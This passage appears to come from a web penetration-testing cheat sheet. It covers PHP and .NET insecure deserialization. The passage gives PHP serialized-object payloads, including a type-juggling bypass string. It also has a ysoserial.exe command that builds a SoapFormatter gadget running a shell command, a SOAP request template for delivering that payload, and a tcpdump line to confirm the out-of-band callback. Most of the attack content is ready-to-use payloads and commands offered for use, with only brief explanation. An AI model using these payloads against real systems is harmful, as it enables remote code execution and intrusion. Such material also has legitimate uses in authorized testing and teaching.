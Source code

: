 Examples:
Public \<s>  
`O:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}`
  
Protected \0 * \0  
`O:4:"Okay":1:{s:11:"' . "\0" . '*' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}`

Private \0 \<s> \0    
`O:4:"Okay":1:{s:14:"' . "\0" . 'Okay' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}`
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/php/example.php
  
#### Trick Bypass

`a:2:{s:8:"anything";o:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}}`

### Tool

https://github.com/ambionics/phpggc
  
### Other

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/php/token_hmac_sha1.php

### .NET Deserialization
#### Methods Serialization

-> Binary Formatter  
-> DataContractSerializer  
-> NetDataContractSerializer  
-> XML Serialization  
  
#### Most common places to find serialized data
-> VIEWSTATE  
-> .NET remoting services  

#### Identify
-> Detect via Response Simple in SOAP Message
```
POST /endpoint HTTP/1.1
Host: <ip>:<port>

<SOAP:Envelope>
</SOAP:Envelope>
```

```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ping <ip>" -o raw  
```
https://github.com/pwntester/ysoserial.net  
```
POST /endpoint HTTP/1.1
Host: ip:port
SOAPAction: something
Contet-Type: text/xml

<payload_ysoserial_here_without_<SOAP-ENV:Body>
```
`tcpdump -i tap0 icmp`
